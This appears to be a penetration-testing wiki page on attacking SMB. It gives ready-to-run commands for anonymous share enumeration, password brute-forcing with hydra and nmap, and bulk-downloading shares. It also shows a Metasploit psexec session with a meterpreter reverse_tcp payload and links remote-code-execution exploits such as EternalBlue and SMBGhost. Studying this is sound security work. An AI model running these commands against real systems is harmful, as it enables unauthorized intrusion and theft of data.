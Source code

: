 # 🛠️ SMB

## Theory

SMB (Server Message Block) is a protocol running on port 445/tcp. It is used to share access to files, printers and serial ports on a network

In 1996 Microsoft releases a customized SMB they call CIFS (Common Internet File System). CIFS can sometimes be referred to as SMB1 (or SMBv1, SMB 1.0). In 2006, Microsoft introduced SMB2 (also referred to as SMB 2.0), a new version of the CIFS protocol. In 2012, Microsoft released SMB3 (a.k.a. SMB 3.0). As of 2020, most systems use SMB 2.0 or above.

In short, SMB is the protocol, CIFS is an old dialect of SMB, and Samba is the Linux/UNIX-like implementation of the SMB protocol (see [this](http://thewindowsupdate.com/2020/02/21/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/)).

## Practice

### Null session

The null session, if not disabled, allows for anonymous/guest access to a network resource when using no credentials

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) (C) and [smbmap](https://github.com/ShawnDEvans/smbmap) (Python) can be used to access SMB shares with null sessions. Null credentials do not have to be explicitly set in this case.

```bash
# List shares
smbclient --list //$IP
smbmap -H $IP

# List shares (implicit null creds)
smbclient --no-pass --list //$IP

# List shares (explicit null creds)
smbclient --user ''%'' --list //$IP
smbmap -u '' -p '' -H $IP

# Open an interactive session to operate on a specific share
smbclient //$IP/$SHARE_NAME
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to test for null session on multiple hosts.

```bash
netexec smb $TARGETS -u '' -p '' --shares
```
{% endtab %}

{% tab title="Windows" %}
The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

{% hint style="warning" %}
If null credentials are not explicitly set, Windows will natively use implicit credentials (e.g. Kerberos tickets in cache, logged on user creds or computer account)
{% endhint %}

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```
{% endtab %}
{% endtabs %}

### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

{% hint style="danger" %}
In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.
{% endhint %}

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [NetExec](https://github.com/Pennyw0rth/NetExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With netexec
netexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

### 🛠️ Authenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
```

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

{% hint style="warning" %}
File uploading, creating, starting, stopping, deletion of services makes it really noisy.
{% endhint %}

**Smbexec** works like **Psexec**, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py" %}
Exploit
{% endembed %}

{% hint style="info" %}
**%COMSPEC%** is the environment variable that generaly points to the command line interpreter. (_cmd.exe, powershell.exe_...)
{% endhint %}

{% hint style="info" %}
The purpose of using **/Q** option of cmd is to stop displaying output. (je crois que ça veut dire /quiet à vérifier)
{% endhint %}

{% hint style="warning" %}
Prioritize using **Smbexec** when you detect a strong AV, `cmd.exe`is a trusted component of the operating system.
{% endhint %}

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py" %}
Exploit
{% endembed %}

DCOM is a way for a computer to run a program over the network on a different computer as if the program was running locally.

Dcomexec has a similar approach to psexec but it is executing commands through DCOM.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py" %}
Exploit
{% endembed %}

netexec is a swiss army that has featured a lot of the command execution methods mentionned precedently.

One of its feature is to automate the process of executing code via SMB by switching between methods when one fails.

{% embed url="https://github.com/Pennyw0rth/NetExec" %}

### 🛠️ Unauthenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the **SMBv1** server. Other related exploits were labelled as`Eternalchampion`, `Eternalromance` and `Eternalsynergy.`

{% embed url="https://github.com/worawit/MS17-010" %}
POC
{% endembed %}

Smbghost is a bug occuring in the decompression mechanism of client message to a **SMBv3.11** server. This bug leads remotely and without any authentication to a **BSOD or an RCE** on the target.

{% embed url="https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-0796-RCE-POC" %}
POC
{% endembed %}

Smbleed allows to **leak kernel** memory remotely, it is also occuring in the same decompression mechanism as smbghost.

In order for the target to be vulnerable, it must have the **SMBv3.1.1** implementation running and the compression function enabled, which is on by **default**.

{% embed url="https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-1206-POC" %}
POC
{% endembed %}

## Resources

{% embed url="https://pandorafms.com/blog/what-is-wmi/" %}

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-smb" %}

{% embed url="https://www.varonis.com/blog/dcom-distributed-component-object-model/" %}

{% embed url="https://www.optiv.com/blog/owning-computers-without-shell-access" %}
